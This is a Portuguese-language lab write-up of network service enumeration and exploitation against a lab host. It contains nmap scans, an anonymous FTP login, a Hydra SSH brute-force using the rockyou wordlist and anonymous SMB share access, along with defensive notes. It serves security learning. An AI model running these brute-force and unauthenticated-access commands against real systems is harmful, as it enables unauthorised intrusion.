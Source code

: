 Network Services - Full Report

Objetivo
Aprender a identificar e explorar serviços de rede comuns (SSH, FTP, SMB) e entender seus riscos de segurança.

🛠️ Ferramentas Utilizadas
Ferramenta	Comando Exemplo	Finalidade
Nmap		nmap -sV -p- 10.10.10.10			Varredura de portas e serviços
Hydra		hydra -l user -P pass.txt ftp://10.10.10.10	Brute-force de senhas
Smbclient	smbclient //10.10.10.10/share			Acesso a compartilhamentos SMB

🔍 Passo a Passo Detalhado
1. Identificação de Serviços (Nmap)

Comando:
nmap -sV -p- 10.10.10.10 -oN scan.txt

Saída Crítica:
21/tcp  open  ftp     vsftpd 3.0.3  
22/tcp  open  ssh     OpenSSH 7.6p1  
139/tcp open  netbios-ssn Samba 4.7.6  

O que aprendemos?
A máquina tem FTP (vsftpd), SSH e Samba ativos.

2. Exploração do FTP (Anonymous Login)
Comando:
ftp 10.10.10.10

Login
Usuário: anonymous
Senha: (vazia)

Resultado:
230 Login successful.  
ftp> ls  
-rw-r--r-- 1 ftp ftp 1234 Jan 01 config.txt  

Risco: FTP anônimo permite download de arquivos sensíveis.

3. Ataque de Força Bruta no SSH (Hydra)

Comando:
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 4

Explicação:
Testa combinações de usuário (admin) e senhas (rockyou.txt).

Saída:
[22][ssh] host: 10.10.10.10   login: admin   password: password123  

Proteção: Desativar logins SSH como root e usar autenticação por chaves.

4. Acesso a Compartilhamento SMB (Smbclient)
Comando:
smbclient //10.10.10.10/public -N

Resultado:
smb: \> ls  
  .                                   D        0  Jan 01 .  
  ..                                  D        0  Jan 01 ..  
  secret.txt                          N      123  Jan 01  

Problema: Compartilhamentos públicos podem vazar dados.

💻 Exercício Prático
Cenário: Verificar se o FTP permite uploads:

ftp 10.10.10.10  
> put arquivo.txt  

Se funcionar, um atacante pode subir malwares!

🏆 Artefatos Coletados
Serviço		Vulnerabilidade			Comando Usado
FTP		Login anônimo			ftp 10.10.10.10
SSH		Senha fraca (password123)	hydra -l admin -P rockyou.txt ssh://...
SMB		Compartilhamento público	smbclient //10.10.10.10/public -N


💡 Lições Aprendidas
Serviços antigos (ex: vsftpd 3.0.3) podem ter vulnerabilidades conhecidas.
Autenticação fraca (senhas padrão/anônimas) é risco crítico.
Ferramentas nativas (nmap, smbclient) são suficientes para testes básicos.